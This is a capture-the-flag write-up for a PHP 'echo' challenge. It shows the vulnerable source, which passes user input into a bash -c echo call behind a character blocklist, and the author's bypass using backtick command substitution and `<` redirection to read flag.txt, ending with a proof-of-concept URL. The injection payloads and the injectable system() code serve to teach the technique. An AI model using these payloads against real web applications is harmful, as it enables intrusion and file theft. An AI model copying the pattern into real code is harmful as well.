 # $Echo challenge
  
This challenge has a simple HTML page with a php form:
```html
<form method="get" name="index.php">
    <input type="text" name="echo" id="echo" size="80">
    <input type="submit" value="Echo">
</form>
```
I've tested with the string `asd`. It printed `asd` into the page.  
Ok, apparently it prints things into the page, let's play with it.  
  
Firstly, I've tested with a looong string and it printed: `Man that's a mouthful to echo, what even?`.  
Then I tested with an empty string. It printed: `Please don't be lame, I can't just say nothing.`.  
  
So, now I know it prints things. What if I inject a command into it?  
With my bash scripting knowledge I tried two things:  
Tried to inject the command `$(ls)`. It printed: `Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:(
`. Very funny tough.  
  
The other thing which allow to execute code is `` ` `` (backtick). Tried `` `ls` ``. It printed: `index.php`. Nice, it worked!!  
After that I used cat to read the index.php content, which broke the page layout but I could get the content on the source code of the page:  
```php
<?php
    $to_echo = $_REQUEST['echo'];
    $cmd = "bash -c 'echo " . $to_echo . "'";
    if(isset($to_echo)) {
        if($to_echo=="") {
            print "Please don't be lame, I can't just say nothing."; 
        } elseif (preg_match('/[#!@%^&*()$_+=\-\[\]\';,{}|":>?~\\\\]/', $to_echo)) { 
            print "Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:("; 
        } elseif ($to_echo=="cat") { 
            print "Meowwww... Well you asked for a cat didn't you? That's the best impression you're gonna get :/"; 
        } elseif (strlen($to_echo) > 15) { 
            print "Man that's a mouthful to echo, what even?"; 
        } else { 
            system($cmd); 
        } 
    } else { 
        print "Alright, what would you have me say?"; 
    } 
?>
```
Now I know what is going on. If I input a string which is not empty, do not contain those chars on that regex, is not equal to "cat" and is not greater than 15 chars, the string will be echoed by the command:  
`bash -c 'echo string'`.  
  
So I started to look for the flag by using the old good ls command and I found the flag on the parent directory `` `ls ..` ``:  
`flag.txt html`  
  
Ok, now how can I read this flag.txt file?  
I cannot use `` `cat ../flag.txt` `` because it has more than 15 chars.  
  
Let's check the source code again looking to the keyboard. Which character is not on that regex besides the `` ` `` (backtick)?
The answer is the `<`.  
  
Knowing that the input string will be the argument to the echo command, I can redirect the input which is the keyboard by default by using the `<` to redirect the input from a file. So to read the flag all I need is to run this: `` `<../flag.txt` ``.  
  
Boom, flag printed, challenge done! (I won't show the flag here, go get yourself, punk!).  
  
PoC: `http://CHALLENGEURL/?echo=%60%3C..%2Fflag.txt%60`